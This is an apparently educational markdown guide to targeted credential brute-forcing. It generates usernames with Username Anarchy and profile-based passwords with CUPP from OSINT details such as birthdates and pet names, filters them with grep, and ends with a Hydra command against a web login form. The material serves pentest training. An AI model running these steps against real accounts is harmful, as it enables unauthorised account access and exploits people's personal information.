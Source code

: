 # Custom Wordlists

This documentation outlines the creation and use of custom wordlists to enhance brute-force attacks, focusing on tools like Username Anarchy and CUPP for tailored username and password generation.

---

## Overview

Pre-made wordlists like `rockyou.txt` and `SecLists` are broad and generalized, often inefficient for specific targets. Custom wordlists, on the other hand, leverage Open-Source Intelligence (OSINT) to generate tailored credentials, increasing the likelihood of successful brute-force attempts.

---

## Username Generation: Username Anarchy

### Installing Username Anarchy

```bash
sudo apt install ruby -y
git clone https://github.com/urbanadventurer/username-anarchy.git
cd username-anarchy
```

### Generating Custom Usernames

```bash
./username-anarchy Jane Smith > jane_smith_usernames.txt
```

This generates a diverse set of usernames based on the target's name, including combinations like:
- Basic: `janesmith`, `smithjane`, `j.smith`
- Initials: `js`, `j.s`, `s.j`
- Variants: `j4n3`, `smith87`

Inspect `jane_smith_usernames.txt` to review the generated list.

---

## Password Generation: CUPP

### Installing CUPP

```bash
sudo apt install cupp -y
```

### Running CUPP in Interactive Mode

```bash
cupp -i
```

CUPP will prompt you for information about the target. Provide as much detail as possible, such as:
- Name, nickname, birthdate
- Partner's name, pet's name
- Interests, company name

Example interaction:
```
> First Name: Jane
> Surname: Smith
> Nickname: Janey
> Birthdate: 11121990
> Partner's Name: Jim
> Pet's Name: Spot
> Company Name: AHI
> Add special characters? Y
> Add random numbers? Y
> Leet mode? Y
```

CUPP will generate a wordlist, saving it as `jane.txt`.

---

## Filtering Passwords

If the target enforces password policies, filter the generated list using `grep`:

```bash
grep -E '^.{6,}$' jane.txt | grep -E '[A-Z]' | grep -E '[a-z]' | grep -E '[0-9]' | grep -E '([!@#$%^&*].*){2,}' > jane-filtered.txt
```

This command:
- Ensures a minimum length of 6 characters.
- Checks for uppercase, lowercase, numbers, and at least two special characters.

The filtered list is saved as `jane-filtered.txt`.

---

## Using Custom Wordlists in Hydra

Combine the username and password lists with Hydra to perform a brute-force attack:

```bash
hydra -L jane_smith_usernames.txt -P jane-filtered.txt IP -s PORT -f http-post-form "/:username=^USER^&password=^PASS^:F=Invalid credentials"
```

---

## Summary

1. Use Username Anarchy to generate tailored username lists.
2. Use CUPP to generate personalized password lists.
3. Filter passwords to comply with the target’s policies.
4. Use Hydra with custom lists to perform targeted brute-force attacks.

Custom wordlists maximize efficiency by focusing on specific targets, leveraging personal and organizational information gathered through OSINT.

